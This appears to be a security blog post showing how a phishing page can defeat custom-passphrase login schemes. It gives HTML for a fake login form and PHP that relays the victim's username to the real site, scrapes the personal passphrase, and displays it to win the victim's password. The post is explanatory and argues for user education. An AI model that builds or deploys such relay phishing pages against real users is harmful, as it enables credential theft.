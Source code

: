 ```yaml
---
layout: post
title: How custom passphrases/pictures still don't protect against phishing
tags:
- security
---
```


As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**login.php** @ fakedomain.com

```html
<form action="login2.php" method="post">
    <label>Username: <input name="username"></input><br></br>
    <em>Remember, you will be asked to verify your passphrase on the next page.</em><br></br>
    <input type="submit" value="Login"></input>
</form>
```

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**login2.php** @ fakedomain.com

```php?start_inline=1    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
 $opts = array('http'=>array('method'=>'POST', 'header'=>'Content-Type: application/x-www-form-urlencoded', 'content'=>http_build_query($args)));
 $context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

/** next login form page actually shows the $passphrase phrase and asks for password **/
include('next_login_form.php');
```


Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named div or span with an id of 'passphrase_node'.  Probably, in real life, you'd have to use a complex xpath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).
